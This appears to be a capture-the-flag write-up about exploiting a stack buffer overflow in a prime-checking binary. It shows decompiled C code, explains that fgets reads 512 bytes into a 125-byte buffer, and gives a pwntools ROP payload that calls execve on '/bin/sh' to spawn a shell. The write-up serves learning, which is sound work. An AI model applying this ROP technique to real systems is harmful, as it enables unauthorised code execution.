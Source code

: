 ```c
    local_10 = sVar3 - 1;
    acStack_d9[sVar3] = '\0';
  }
  iVar1 = strcmp(acStack_d9 + 1,"/bin/sh");
  if (iVar1 == 0) {
    puts("Exploitation attempt detected! This incident will be reported.");
  }
  else {
    iVar1 = __isoc99_sscanf(acStack_d9 + 1,&DAT_0040209f,local_5c);
    if (iVar1 < 1) {
      puts("Please enter a number!");
    }
    else if ((int)local_5c[0] < 2) {
      puts("Please enter a number greater than 1");
    }
    else {
      iVar1 = FUN_004011e0(local_5c[0]);
      if (iVar1 == 0) {
        printf("%d is definitely not a prime.\n",(ulong)local_5c[0]);
      }
      else {
        printf("%d might be a prime.\n",(ulong)local_5c[0]);
      }
    }
  }
  return;
}
```

I noticed that the buffer holding the input, **ac_Stack_d9**, had a size of 125 but the **fgets** function called immediately after accepted 0x200 ( 512 ) bytes as input.
So as hinted by the exercise description this opens a window for a ROP attack.
First I found the buffer overflow offset using a cyclic pattern and the gadgets using ropper and Ghidra.
Once I found all the necessary addresses I had to look at the x86_64 ABI to know how to assemble the payload.
Since arguments are passed in registers in a 64 bit architecture I had to pop registers and modify values inside them in order to spawn a shell using a call to **execve** and the **/bin/sh** string located in the main function

```c
iVar1 = strcmp(acStack_d9 + 1,"/bin/sh");
```

So the final payload was 

```python
payload = (
    b"A" * OFFSET
    + pwn.p64(RET)
    + pwn.p64(POP_RAX)
    + pwn.p64(59)
	+ pwn.p64(POP_RDI_RBX)
	+ pwn.p64(BIN_SH)
	+ pwn.p64(0)
	+ pwn.p64(XOR_RSI)
	+ pwn.p64(POP_RDX)
	+ pwn.p64(0)
	+ pwn.p64(SYSCALL)
)
```
